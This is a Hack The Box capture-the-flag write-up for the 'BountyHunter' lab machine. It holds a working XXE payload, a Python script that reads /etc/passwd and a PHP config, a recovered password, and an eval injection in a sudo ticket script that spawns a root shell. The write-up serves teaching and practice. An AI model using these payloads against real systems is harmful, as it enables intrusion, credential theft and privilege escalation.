







<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.100 bountyHunter.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From web server on port 80, `/portal.php` lead to `/log_submit.php`



This page takes users input and send it in xml form as base64 encoded strings. 





From gobuster found a intresting file.
```bash
gobuster dir -u "http://10.10.11.100" -w /usr/share/seclists/Discovery/Web-Content/raft-small-files-lowercase.txt

/db.php               (Status: 200) [Size: 0]
```

# Foothold

## xxe

Testing xxe and get `/etc/passwd` file from xxe payload.
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>test</cwe>
        <cvss>test</cvss>
        <reward>test</reward>
        </bugreport>
```



Simple python script to automate xxe
```py
import re
import sys
import requests as r
import base64

url = "http://10.10.11.100/tracker_diRbPr00f314.php"
payload = "php://filter/convert.base64-encode/resource=db.php"
# payload = "file:///etc/passwd"
# payload = sys.argv[1]

data = f"""<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "{payload}">
]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>test</cwe>
        <cvss>test</cvss>
        <reward>test</reward>
        </bugreport>""".encode('ascii')

postdata = {"data": base64.b64encode(data).decode('ascii')}
rspn = r.post(url, data=postdata)
# print(rspn.text)

filter_rspn = re.findall('<td>(.*?)</td>', rspn.text, re.DOTALL)[1]
try:
    b64decode = base64.b64decode(filter_rspn).decode()
    print(bytes(b64decode, 'utf-8').decode('unicode_escape'))
except Exception:
    print(filter_rspn)
```

* Get username from `/etc/passwd`: "`development`"
* And db creds from: `db.php`: "`m19RoAU0hP41A1sTsq6K`"

database password worked for user "development" ssh login.

# Privesc

## python script logic

User "development" can run a python script `/opt/skytrain_inc/ticketValidator.py` with sudo
```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

This script doing something



because script is not sanitizing input and directly send it to eval with some conditions, we only need to pass some checks and get code execuation.
```bash
# Skytrain Inc
## Ticket to hell
__Ticket Code:__
**11 + 90 == 101 and __import__('os').system('/bin/bash')
```

